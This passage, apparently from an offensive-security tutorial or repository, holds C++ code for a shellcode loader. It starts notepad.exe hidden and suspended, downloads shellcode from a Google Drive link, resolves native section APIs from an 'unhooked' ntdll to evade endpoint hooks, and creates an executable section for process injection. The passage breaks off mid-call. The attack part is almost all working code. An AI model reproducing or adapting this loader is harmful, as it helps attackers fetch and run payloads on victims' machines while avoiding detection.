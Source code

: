 ```
>>> FINISHED.
```

Once done we serve the shellcode from google drive.

*Note: Adding NtAPI header definitions hasn't been shown here.*

```
int main()
{
    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
    startup_info->cb = sizeof(STARTUPINFOW);
    startup_info->dwFlags = STARTF_USESHOWWINDOW;

    // create process info struct
    PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

    // null terminated command line
    wchar_t cmd[] = L"notepad.exe\0";

    // create process
    BOOL success = CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW | CREATE_SUSPENDED,
        NULL,
        NULL,
        startup_info,
        process_info);

    // download shellcode
	std::vector<BYTE> shellcode = Download(L"www.drive.google.com\0", L"/u/5/uc?id=1WUDbPX-v47lxMcE0e9K_Uqk6G83AZa5_&export=download\0");

    // find Nt APIs
    // HMODULE hNtdll is the handle to Unhooked ntdll
    NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
    NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");

    // create section in local process
    HANDLE hSection;
    LARGE_INTEGER szSection = { shellcode.size() };

    NTSTATUS status = ntCreateSection(
        &hSection,
        SECTION_ALL_ACCESS,
        NULL,
        &szSection,
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT,
        NULL);

    // map section into memory of local process
    PVOID hLocalAddress = NULL;
    SIZE_T viewSize = 0;

    status = ntMapViewOfSection(
```